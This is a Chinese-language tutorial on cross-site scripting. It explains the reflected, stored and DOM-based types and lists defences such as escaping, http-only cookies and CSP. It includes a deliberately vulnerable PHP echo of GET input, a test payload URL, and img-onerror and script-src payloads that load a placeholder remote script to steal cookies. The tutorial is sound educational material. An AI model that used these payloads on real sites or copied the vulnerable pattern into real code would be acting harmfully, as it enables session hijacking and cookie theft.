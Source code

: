 # XSS跨站脚本攻击
跨站脚本攻击`XSS`，是最普遍的`Web`应用安全漏洞。这类漏洞能够使得攻击者嵌入恶意脚本代码到正常用户会访问到的页面中，当正常用户访问该页面时，则可导致嵌入的恶意脚本代码的执行，从而达到恶意攻击用户的目的。

## 类型

* 反射型`XSS`： 攻击者事先制作好攻击链接,需要欺骗用户自己去点击链接才能触发`XSS`代码，所谓反射型`XSS`就是将恶意用户输入的`js`脚本，反射到浏览器执行。

* 存储型`XSS`：代码是存储在服务器中的，如在个人信息或发表文章等地方，加入代码，如果没有过滤或过滤不严，那么这些代码将储存到服务器中，每当有用户访问该页面的时候都会触发代码执行，这种XSS非常危险，容易造成蠕虫，大量盗窃`cookie`，也被称为持久型`XSS`。

* `DOM`型`XSS`：类似于反射型XSS，但这种`XSS`攻击的实现是通过对`DOM`树的修改而实现的。

## 原理
当动态页面中插入的内容含有这些特殊字符如`<`时，用户浏览器会将其误认为是插入了`HTML`标签，当这些`HTML`标签引入了一段`JavaScript`脚本时，这些脚本程序就将会在用户浏览器中执行。当这些特殊字符不能被动态页面检查或检查出现失误时，就将会产生`XSS`漏洞。  

攻击者可以使用户在浏览器中执行其预定义的恶意脚本，劫持用户会话，插入恶意内容、重定向链接、使用恶意软件劫持用户浏览器等等。

基于反射型`XSS`漏洞，欺骗用户点击以执行`js`代码，可以盗取`cookie`等。

```php
// 直接将输入打印到页面，造成XSS
<?php 
$XssReflex = $_GET['i'];
echo $XssReflex;
```

```html
<!-- 构造url，点击后就可以执行js代码 -->
http://127.0.0.1/xss.php?i=<script>alert("run javascript");</script>
```

基于存储型`XSS`漏洞，将`js`代码存储于服务器数据库中，服务器直接查询数据库数据显示到页面，即造成`XSS`  
最经典的存储型`XSS`漏洞是留言板，当用户A在留言板留言一段`JS`代码`<script>alert("run javascript");</script>`,后端未经过滤直接存储到数据库，当正常用户浏览到他的留言后，这段`JS`代码就会被执行，可以借此来盗取`cookie`。

```
graph LR
恶意用户A --> 构造JS代码
构造JS代码 --> 服务器数据库
服务器数据库 --> 正常用户B显示页面
服务器数据库 --> 正常用户C显示页面
服务器数据库 --> 正常用户...显示页面
正常用户B显示页面 --> 执行js盗取cookie
正常用户C显示页面 --> 执行js盗取cookie
正常用户...显示页面 --> 执行js盗取cookie
```

基于`DOM`的型`XSS`漏洞类似于反射型`XSS`，但其变化多端，总之一句话，各种姿势，各种插，只要能执行我的`Js`  ，利用`<script>`、`<img>`等标签允许跨域请求资源。  
经典案例是可以将标签写入到软件的意见反馈中，当管理员查看留言的反馈即触发`XSS`，传递`cookie`与后台管理地址后就可以登录到后台了。

```html
<script scr="js_url"></script>
```
```html
<img src=1 onerror=appendChild(createElement('script')).src='js_url' />
```

## 防御
* 在用户提交参数前，将提交的字符`<` 、`>`、`&`、`"` 、`'` 、`+`、`/`等进行转义，严格控制输出。
* 将输入转化为小写对比`javascript:`，若匹配则过滤。
* 将`cookie`设置为`http-only`,`js`脚本将无法读取到`cookie`信息。
* 纯前端渲染，明确`innerText`、`setAttribute`、`style`，将代码与数据分隔开。
* 避免不可信的数据拼接到字符串中传递给这些`API`，如`DOM`中的内联事件监听器，`location`、`onclick`、`onerror`、`onload`、`onmouseover`等，`<a>`标签的`href`属性，`JavaScript`的`eval()`、`setTimeout()`、`setInterval()`等，都能把字符串作为代码运行。
* 对于不受信任的输入，都应该限定一个合理的长度。
* 严格的`CSP`,禁止加载外域代码，禁止外域提交，禁止内联脚本执行等较为严格的方式。
